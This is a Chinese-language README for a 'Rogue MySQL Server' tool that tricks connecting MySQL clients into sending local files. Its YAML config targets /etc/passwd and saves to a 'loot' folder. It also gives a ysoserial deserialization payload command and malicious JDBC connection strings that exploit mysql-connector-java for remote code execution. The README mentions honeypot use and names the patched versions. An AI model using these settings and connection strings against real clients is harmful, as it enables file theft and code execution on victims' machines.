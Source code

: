 # Rogue Mysql Server

基于 https://github.com/vitessio/vitess 实现的恶意 mysql 服务器, 支持 go, php, python, java, 原生命令行等多种语言下的多种库的 mysql 客户端.  
远离恼人的兼容性问题, 测试过的客户端见下表

language | library | pass |
---     | --- | --- | 
go | github.com/go-sql-driver/mysql | ✔️ | 
php | mysqli, pdo | ✔️ | 
python | pymysql | ✔️ | 
java | mysql-connector-java | ✔️ |
native | 10.4.13-MariaDB | ✔️ |

觉得好用可以点右上方的 🌟 支持作者

## 功能

* 可以兼容多种 mysql 客户端
* 可以读取二进制文件
* 自动保存文件
* 作为蜜罐使用时, 可选择开启帐号密码验证
* 读取客户端的 ConnAttr, 可能会包含一些客户端的额外信息
* 对于 jdbc, 可控链接串的情况下可以利用 mysql-connector-java 反序列化漏洞进行 RCE

## 配置文件

示例:
```yaml
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
always_read: false

auth: true
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'open -a Calculator']
```

`host`, `port` 对应监听的 IP 和端口. version_string 对应客户端得到的服务端版本信息.  
`auth` 对应是否开启验证, 如果为 `false`, 那么不管输什么密码或者不输入密码都可以登录.  
如果为 `true`, 则需要帐号密码匹配下面的设置的帐号密码中的一条.  
而 `file_list` 对应需要读取的文件, 会按照客户端执行语句的顺序读取列表中的文件, 并保存到 `save_path` 文件夹中.

如果开启 `always_read`, 那么不管客户端是否标记自己支持 LOAD DATA LOCAL, 都会尝试去读取文件, 否则会根据客户端的标记来决定是否读取, 避免客户端请求不同步.

## jdbc 利用相关

在版本 >= 8.0.20, >= 5.1.49 中, 此漏洞已经被修复,  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

与 jdbc 相关的配置如下
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'open -a Calculator']
```
`jdbc_exploit` 代表这个功能开启, 在检测到客户端是 mysql-connector-j 的情况下会自动利用.  
`always_exploit` 代表总是开启利用, 优先级比 `always_read` 高.  
`ysoserial_command` 生成反序列化 payload 的命令.

```
8.x: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
6.x: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
>=5.1.11: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
```

## Ref

jdbc 反序列化思路参考:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql 协议相关:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
